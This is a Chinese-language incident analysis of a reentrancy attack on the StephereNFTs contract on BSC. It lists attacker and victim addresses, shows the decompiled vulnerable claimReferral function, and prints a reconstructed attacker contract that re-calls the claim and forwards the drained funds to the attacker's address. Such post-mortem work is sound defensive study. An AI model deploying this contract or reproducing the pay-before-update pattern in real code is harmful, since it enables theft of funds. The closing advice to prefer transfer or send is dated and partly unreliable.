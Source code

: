 ```yaml
---
title: "StephereNFTs 遭遇重入攻击分析"
date: 2025-02-21T11:25:05
featured_image: "/images/424896141-692a2eae-d3d7-40bc-b16b-d86c061c5645.png"
tags: ["web3安全事件","合约审计"]
description: "StephereNFTs 遭遇了一起严重的重入攻击，攻击者通过精心构造的恶意合约，利用智能合约逻辑漏洞，成功盗取了大量资金"
---
```

## 攻击概述
2025 年 2 月 ，StephereNFTs 遭遇了一起严重的重入攻击，攻击者通过精心构造的恶意合约，利用智能合约逻辑漏洞，成功盗取了大量资金。

### 参考地址：  
https://nickfranklin.site/2025/02/21/stepheronfts-attacked/


## 相关地址
- **受害合约地址**：`0x9823e10a0bf6f64f59964be1a7f83090bf5728ab`
- **攻击者地址**：`0xFb1cc1548D039f14b02cfF9aE86757Edd2CDB8A5`
- **恶意合约1**：`0xd4c80700ca911d5d3026a595e12aa4174f4cacb3`
- **恶意合约2**：`0xb4c32404de3367ca94385ac5b952a7a84b5bdf76`
- **恶意合约3**：`0x8f327e60fb2a7928c879c135453bd2b4ed6b0fe9`
- **攻击交易 (tx)**：https://bscscan.com/tx/0xef386a69ca6a147c374258a1bf40221b0b6bd9bc449a7016dbe5240644581877

## 攻击步骤解析
### 1. 部署恶意合约
攻击者首先部署了多个恶意合约，以便后续进行重入攻击。

<center>{{< figure src="/images/424896141-692a2eae-d3d7-40bc-b16b-d86c061c5645.png" width="100%" title="图1" >}}</center>


### 2. 通过闪电贷获取初始资金
攻击者利用闪电贷借入了一笔资金，用于后续触发合约的奖励机制。

<center>{{< figure src="/images/424903484-37fadaff-fa68-43cf-b0a7-c7d5f971b4c2.png" width="100%" title="图2" >}}</center>


<center>{{< figure src="/images/424903603-00bd518d-2372-4e43-a7c6-f7b91f26245d.png" width="100%" title="图3" >}}</center>
通过购买资产获取奖励资格

### 3. 通过重入攻击不断获取受害合约资金
攻击者发现受害合约的奖励机制存在漏洞：
- 在领取奖励时，合约会检查推荐奖励的数量。
- 但由于合约先发放奖励，再将奖励计数清零，导致可以在清零前重复调用领取奖励函数，实现重入攻击。

攻击者利用这一漏洞，不断调用恶意合约，通过递归方式重复领取奖励，最终盗取了大量资金。

## 关键漏洞分析
该攻击的核心漏洞在于 **先发奖励后清零** 的逻辑顺序问题，导致了经典的重入攻击 (Reentrancy Attack)。

**漏洞代码示例**：
```solidity
function claimReferral(address varg0) public nonPayable {  find similar
    require(msg.data.length - 4 >= 32);
    require(!_paused, Error('Pausable: paused'));
    require(owner_5[msg.sender][varg0], Error('not-enough-money'));
    0x2d1e(varg0, owner_5[msg.sender][varg0], msg.sender);
    owner_5[msg.sender][varg0] = 0;
    emit 0x9c21c092f05b64df5ae0cbf557b9bf4e9695cdbeaa13fcf9a0831bce847f0cfb(msg.sender, varg0, owner_5[msg.sender][varg0]);
}
```


攻击者可以重复调用重新调用 `claimReferral`，从而在清零前多次获取奖励。

具体发送的函数
```solidity
function 0x2d1e(address varg0, uint256 varg1, address varg2) private { 
    if (varg0) {
        MEM[MEM[64] + 36] = varg2;
        MEM[MEM[64] + 68] = varg1;
        0x2c96(100 + MEM[64], 0xa9059cbb00000000000000000000000000000000000000000000000000000000, varg0);
        return ;
    } else {
        v0, /* uint256 */ v1 = varg2.call().value(varg1).gas(msg.gas);
        if (RETURNDATASIZE() != 0) {
            v2 = new bytes[](RETURNDATASIZE());
            v1 = v2.data;
            RETURNDATACOPY(v1, 0, RETURNDATASIZE());
        }
        require(v0, Error('transfer-BNB-failed'));
        return ;
    }
}
```

另外这里展示下黑客用来实现反复调用的第三部分恶意合约：
(使用LLM处理了一下)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract TokenHandler {
    address private owner;
    address private token1;
    address private token2 = 0xFb1cC1548d039f14b02cfF9ae86757edD2cdB8A5;

    constructor() {
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "invalid sender");
        _;
    }

    function func_6f2db99c() external {
        // 调用 owner 的某个函数 (e61aee51)
        //重复调用claimReferral函数
        (bool success, ) = owner.call(abi.encodeWithSignature("e61aee51()"));
        require(success);
    }

    function withdraw(address token, uint256 amount) external onlyOwner {
        // 获取 token 在调用者地址的余额
        (bool success1, bytes memory data) = token.call(
            abi.encodeWithSelector(0x70a08231, address(this))
        );
        require(success1);
        uint256 balance = abi.decode(data, (uint256));

        // 调用 withdraw (0x2e1a7d4d)
        (bool success2, ) = token.call(abi.encodeWithSelector(0x2e1a7d4d, balance));
        require(success2);

        // 调用 token 的 transfer 函数
        (bool success3, ) = token.call(
            abi.encodeWithSelector(0xa9059cbb, msg.sender, balance)
        );
        require(success3);

        // 向 msg.sender 发送 1 wei
        (bool success4, ) = msg.sender.call{value: 1}("");
        require(success4);

        // 向 token2 发送当前合约余额
        (bool success5, ) = token2.call{value: address(this).balance}("");
        require(success5);
    }

    function executeCall() internal {
        // 复杂的外部调用逻辑，可能涉及 delegatecall 或其他操作
        // 这里简化表示
        (bool success, ) = token1.call{value: address(this).balance}("");
        require(success, "call failed");

        // 调用 token1 的函数 0x50eb1dfe
        (bool success2, ) = token1.call(
            abi.encodeWithSelector(0x50eb1dfe, token2, address(this).balance)
        );
        require(success2);
    }
}
```

## 解决方案
为了防止类似的重入攻击，可以采取以下措施：
1. **使用 Checks-Effects-Interactions 模式**：
   - 先更新状态，再进行外部调用，以避免重入风险。
2. **使用 `ReentrancyGuard`**：
   - 通过 OpenZeppelin 提供的 `nonReentrant` 修饰符，防止函数的嵌套调用。
3. **避免直接调用 `call` 进行转账**：
   - 推荐使用 `transfer` 或 `send`，虽然限制了 GAS，但能降低重入攻击的风险。

